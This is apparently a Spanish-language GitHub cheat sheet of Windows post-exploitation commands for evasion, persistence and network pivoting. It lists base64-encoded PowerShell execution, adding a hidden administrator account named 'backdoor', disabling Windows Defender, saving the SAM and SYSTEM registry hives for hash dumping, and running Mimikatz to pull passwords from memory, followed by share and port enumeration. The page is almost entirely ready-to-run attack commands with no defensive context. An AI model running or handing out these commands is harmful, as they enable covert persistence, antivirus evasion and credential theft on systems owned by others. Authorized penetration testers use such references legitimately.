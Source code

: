 ### 🛡️ Evasión y Persistencia

#### 🔍 Ofuscación

| **Comando**                                       | **Descripción**                         |
| ------------------------------------------------- | --------------------------------------- |
| `powershell.exe -EncodedCommand <payload_base64>` | Ejecutar comandos ofuscados con Base64. |
| `powershell -e <payload_base64>`                  | Variante corta de ejecución codificada. |

#### 👤 Crear usuario oculto

```powershell
net user backdoor Passw0rd! /add
net localgroup Administrators backdoor /add
```

Crea un usuario con privilegios elevados.

#### ❌ Deshabilitar antivirus temporalmente

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Desactiva Windows Defender de forma temporal.

#### 💾 Extraer hashes del sistema

```powershell
reg save HKLM\SAM sam.save reg save HKLM\SYSTEM system.save
```

Guarda claves del registro para dump posterior de hashes.

#### 🔑 Buscar credenciales en memoria

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

Usa Mimikatz para extraer contraseñas desde la RAM.

***

### 🌐 Enumeración y Pivoting en la Red

| **Comando**                                                                            | **Descripción**                            |
| -------------------------------------------------------------------------------------- | ------------------------------------------ |
| `Invoke-Command -ComputerName TARGET -ScriptBlock { net view \\TARGET }`               | Lista recursos compartidos de una máquina. |
| `Test-NetConnection -ComputerName 192.168.1.10 -Port 3389`                             | Verifica puertos abiertos (ej. RDP).       |
| `Get-NetTCPConnection \| Select-Object LocalAddress,RemoteAddress,State,OwningProcess` | Enumera conexiones y procesos asociados.   |

***
